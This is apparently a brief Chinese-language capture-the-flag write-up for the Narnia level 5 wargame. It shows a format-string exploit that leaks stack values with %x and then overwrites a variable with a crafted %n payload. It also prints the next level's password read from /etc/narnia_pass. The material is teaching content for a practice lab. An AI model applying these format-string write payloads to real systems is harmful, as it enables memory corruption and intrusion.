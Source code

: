 ### 解題思路

```bash
narnia5@narnia:/narnia$ ./narnia5 $(perl -e 'print "AAAA%x.%x.%x.%x"')
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAA41414141.31343134.31343134.3331332e] (39)
i = 1 (0xffffd440)
```
我們知道就在第一個%x 就讀到自己的輸入
```
./narnia5 $(perl -e 'print "AAAA\x40\xd4\xff\xff%492x%n"')

```
把0xffffd440 用 AAAA 往後退4bytes, 原因是我們需要%x 來控制長度，再用 %n 來寫進第地址

cat /etc/narnia_pass/narnia6: BNSjoSDeGL

0xf7df2140